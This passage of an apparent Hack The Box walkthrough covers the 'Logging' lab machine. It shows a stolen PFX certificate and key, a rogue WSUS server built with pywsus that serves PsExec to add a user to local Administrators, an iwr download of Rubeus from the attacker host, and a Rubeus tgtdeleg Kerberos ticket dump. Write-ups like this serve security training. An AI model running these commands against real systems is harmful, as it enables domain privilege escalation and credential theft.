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

Certify completed in 00:00:04.8181556
```

The base64-encoded `PFX` was saved and decoded on the attacker machine, then split into a certificate and private key for use with `pywsus`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ cat cert.b64 
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
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ python3 -c "
import base64
with open('cert.b64') as f:
    data = f.read().strip().replace('\n','').replace('\r','').replace(' ','')
with open('wsus.pfx', 'wb') as f:
    f.write(base64.b64decode(data + '==', validate=False))
print('Done')
"
Done
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ openssl pkcs12 -in wsus.pfx -nokeys -passin pass: -out wsus.crt
Warning: MAC is absent!
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ openssl pkcs12 -in wsus.pfx -nocerts -nodes -passin pass: -out wsus.key
Warning: MAC is absent!
```

The certificate `SAN` was confirmed to match `wsus.logging.htb`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ openssl x509 -in wsus.crt -noout -subject -san 2>/dev/null
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ openssl x509 -in wsus.crt -noout -text | grep -A1 "Subject Alternative"
            X509v3 Subject Alternative Name: 
                DNS:wsus.logging.htb
```

The attacker machine was added to `/etc/hosts` as `wsus.logging.htb` so that `pywsus` could bind the correct hostname, and the rogue `WSUS` server was launched with the enterprise-signed certificate to serve a `PsExec`-based payload that added `jaylee.clifton` to the local `Administrators` group.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ echo "10.10.16.10 wsus.logging.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.16.10 wsus.logging.htb
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/pywsus]
└─$ python3 pywsus.py -H wsus.logging.htb -p 8531 -e PsExec64.exe -c '-accepteula -s cmd.exe /c net localgroup administrators jaylee.clifton /add' --cert wsus.crt --key wsus.key
INFO:root:The update metadata - uuids: [UUID('6559c5fb-78d5-4803-a663-708cfc56057d'), UUID('f6cebce1-954e-420c-b126-0e939097dc3e')],revision_ids: [962108, 960751], deployment_ids: [99007, 95823], executable: PsExec64.exe, sha1: AJjHnhQEtDmb8OaG2I2/BSJpowI=, sha256: 7frhppUi+HsSxtrDIl2TDkhIgy48VR7h59MXNr9FJe8=
INFO:root:Starting httpd...
```

The target connected to the rogue `WSUS` server and downloaded the malicious update package.

```shell
10.129.30.63 - - [19/Apr/2026 07:35:36] "POST /ClientWebService/client.asmx HTTP/1.1" 200 -
INFO:root:SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetConfig"
10.129.30.63 - - [19/Apr/2026 07:35:37] "POST /ClientWebService/client.asmx HTTP/1.1" 200 -
INFO:root:SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie"
10.129.30.63 - - [19/Apr/2026 07:35:37] "POST /ClientWebService/client.asmx HTTP/1.1" 200 -
INFO:root:SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/SyncUpdates"
10.129.30.63 - - [19/Apr/2026 07:35:37] "POST /ClientWebService/client.asmx HTTP/1.1" 200 -
INFO:root:SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetExtendedUpdateInfo"
INFO:root:Requested: /4a203f1c-ac73-4b2d-bcb7-5c630fbc93dc/PsExec64.exe
10.129.30.63 - - [19/Apr/2026 07:35:38] "GET /4a203f1c-ac73-4b2d-bcb7-5c630fbc93dc/PsExec64.exe HTTP/1.1" 200 -
INFO:root:Requested: /4a203f1c-ac73-4b2d-bcb7-5c630fbc93dc/PsExec64.exe
10.129.30.63 - - [19/Apr/2026 07:35:48] "GET /4a203f1c-ac73-4b2d-bcb7-5c630fbc93dc/PsExec64.exe HTTP/1.1" 200 -
```

Verifying the local `Administrators` group on the target confirmed `jaylee.clifton` had been added successfully.

```shell
PS C:\Users\jaylee.clifton\Documents\Tickets> net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
jaylee.clifton
toby.brynleigh
The command completed successfully.
```

With local administrator membership secured, `Rubeus` was used to request a delegation `TGT` (via `tgtdeleg`) from the current `JAYLEE.CLIFTON` session, which was then converted to a `.ccache` file for use with `Certipy`.

- [https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x86/Rubeus.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x86/Rubeus.exe)

```shell
PS C:\Users\jaylee.clifton\Documents\Tickets> iwr 10.10.16.10/Rubeus.exe -o Rubeus.exe
iwr 10.10.16.10/Rubeus.exe -o Rubeus.exe
```

```shell
PS C:\Users\jaylee.clifton\Documents\Tickets> .\Rubeus.exe tgtdeleg /nowrap
.\Rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.logging.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: wn9BvFGwC3dl3eb6TqCSnZ0Fd4HhdBx2IXZtulc5vhk=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIEyjCCBMZhggTCMIIEvqADAgEFoQ0bC0xPR0dJTkcuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtMT0dHSU5HLkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRugV6cONZE9DK2+uvTbthGRuVVO3h3P97wCamBPTTOqk7K9SmsTT8EUY2A6+RHx4TeENpF4bDiw2yFrjTu6if0UArzefByT1SFMN6VhoVLcSaLkzAL9D8Q1GEno8jGN10ovMiPyfUooO326clKX77+kqx+/Wzpe3h0ny/O/V23Z3wmybOOLX2GMxer8WUwQGye82qoRqZQ/M/9+I6v2DEp/HbrzBEvCXZmixUzzWZT4BfaPQvtsrF9+yhk1rdjalIBUkFb7bUVOr/dVetqq+Hf63uYe0D/FIcOZX2J3UNZb+lzPlTLU6aNSv4X+PGRu6pp0ahqdUyiwfE9Ee140+S/47aMULMhsRR9kKIWJ/HcYd5DSQSdCRMvCKdy1dfAaUQPGqcSqtFirPh+W81IVdVAZsKlC2wcVQFcttgenXhz21WNBlM3Hypl2DNYOoydSpgJbYBkGHJLqv3DivjElLvs1YAPVzyw6M5atD2Vk69+KCG2DeyKuS0cCFJ+Bf5ZoIrNKFzLVyYUAQbRgqZlwJkGiA2ePD1udcpvHWey0KFCYJ8Bl23c5dOsQf6cPbGUHBHN4OVBnnjCMrYCKUCpJAYBhZSoK3cEbkKvbVP+gbd4ZQyCMGZfkqGhEtrERjmuJHAwGOBEcRXVRKQl5z83DF5FvM75f93IEiiPG4Ghj42jW6TkEIOD0dQfXBJcEFgRGq2dtarVkwe8G7XgqgLFnsVKvW8+w1wRNGRC/kowqfdOqzDnYjcJOqyLHQc3rHIuOLP825MIL+YGpxDpd0SV2Ud+i6n13KxEXxHDDofvK+8yORsRIqXL/wto6G2PQJBCyv4x+mz0ClTyL7IH1GYeG/34jNblBhhHdrgRfYOOw4FM2WmoUAUS/ThbjcAPCjBAFqY0hZCk+70vu9E/n0jvC7iHbu8YrSVPnEqyeJPima77a6u1D3aQbNAfcTaxGQwqMDJ9rYOw9glWvGSdQrYGgs4bX4tHIggRdgXSCh1jevsvmpBGS93J3endj5NdUD1u41lZ2t9fW26kG/hv7wN9Dgr/kpuSGt3CdejX1UGd2U9eAC+y3ec0g3DKBY3/RB/JNnBEzPHmuGbVSOFx3sAJWVS9GSisyqItmrfgDuXHuO8sVlFbA7u/+wM5qs2NnJkL0ejE+yPTjyYHH0ODlb4/xN0gyVSeuguQM1EENg8ipel8Ep0X5xGFAnQvLSkxVykfAmMj5i55XK9rtW+g/rck8W5u2DWLrIte33hMJFNOIB6oAiYChqdU5cLQyPV6Qpkxr+Gi8QLiyzUDaNAMHFXcc4Wh7a/fjsGtEUSsfNfVvigVn+NqTkIs3UQz1v3vvUnoUlkgxspWMAT5bAujwWWhdk9HVDr1NRjUetssm2+8PCeOsCtz5i4T8jj8YIIh9Z60RnoFej4p9eVwQn6++PXvLxYg3tKyE5O4PcdLQ5wLFUerpAUGCFHTElE1k0SrlRtBQ3GipYrGRbhcs5q92Q8JRR7+Io/ayj8W9mT8w5aM8B7Go4HpMIHmoAMCAQCigd4Egdt9gdgwgdWggdIwgc8wgcygKzApoAMCARKhIgQgeZUF9LHev5wxxgBKwAZk2+GG/xejGqpNUw2XnFYvhKWhDRsLTE9HR0lORy5IVEKiGzAZoAMCAQGhEjAQGw5qYXlsZWUuY2xpZnRvbqMHAwUAYKEAAKURGA8yMDI2MDQxOTA1NDIwNVqmERgPMjAyNjA0MTkxMzQ0MTVapxEYDzIwMjYwNDI2MDM0NDE1WqgNGwtMT0dHSU5HLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=
```

The base64 ticket was decoded, converted to `.ccache` format, and loaded as the active credential cache.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ cat jaylee.clifton.b64 
doIFyDCCBcSgAwIBBaEDAgEWooIEyjCCBMZhggTCMIIEvqADAgEFoQ0bC0xPR0dJTkcuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtMT0dHSU5HLkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRugV6cONZE9DK2+uvTbthGRuVVO3h3P97wCamBPTTOqk7K9SmsTT8EUY2A6+RHx4TeENpF4bDiw2yFrjTu6if0UArzefByT1SFMN6VhoVLcSaLkzAL9D8Q1GEno8jGN10ovMiPyfUooO326clKX77+kqx+/Wzpe3h0ny/O/V23Z3wmybOOLX2GMxer8WUwQGye82qoRqZQ/M/9+I6v2DEp/HbrzBEvCXZmixUzzWZT4BfaPQvtsrF9+yhk1rdjalIBUkFb7bUVOr/dVetqq+Hf63uYe0D/FIcOZX2J3UNZb+lzPlTLU6aNSv4X+PGRu6pp0ahqdUyiwfE9Ee140+S/47aMULMhsRR9kKIWJ/HcYd5DSQSdCRMvCKdy1dfAaUQPGqcSqtFirPh+W81IVdVAZsKlC2wcVQFcttgenXhz21WNBlM3Hypl2DNYOoydSpgJbYBkGHJLqv3DivjElLvs1YAPVzyw6M5atD2Vk69+KCG2DeyKuS0cCFJ+Bf5ZoIrNKFzLVyYUAQbRgqZlwJkGiA2ePD1udcpvHWey0KFCYJ8Bl23c5dOsQf6cPbGUHBHN4OVBnnjCMrYCKUCpJAYBhZSoK3cEbkKvbVP+gbd4ZQyCMGZfkqGhEtrERjmuJHAwGOBEcRXVRKQl5z83DF5FvM75f93IEiiPG4Ghj42jW6TkEIOD0dQfXBJcEFgRGq2dtarVkwe8G7XgqgLFnsVKvW8+w1wRNGRC/kowqfdOqzDnYjcJOqyLHQc3rHIuOLP825MIL+YGpxDpd0SV2Ud+i6n13KxEXxHDDofvK+8yORsRIqXL/wto6G2PQJBCyv4x+mz0ClTyL7IH1GYeG/34jNblBhhHdrgRfYOOw4FM2WmoUAUS/ThbjcAPCjBAFqY0hZCk+70vu9E/n0jvC7iHbu8YrSVPnEqyeJPima77a6u1D3aQbNAfcTaxGQwqMDJ9rYOw9glWvGSdQrYGgs4bX4tHIggRdgXSCh1jevsvmpBGS93J3endj5NdUD1u41lZ2t9fW26kG/hv7wN9Dgr/kpuSGt3CdejX1UGd2U9eAC+y3ec0g3DKBY3/RB/JNnBEzPHmuGbVSOFx3sAJWVS9GSisyqItmrfgDuXHuO8sVlFbA7u/+wM5qs2NnJkL0ejE+yPTjyYHH0ODlb4/xN0gyVSeuguQM1EENg8ipel8Ep0X5xGFAnQvLSkxVykfAmMj5i55XK9rtW+g/rck8W5u2DWLrIte33hMJFNOIB6oAiYChqdU5cLQyPV6Qpkxr+Gi8QLiyzUDaNAMHFXc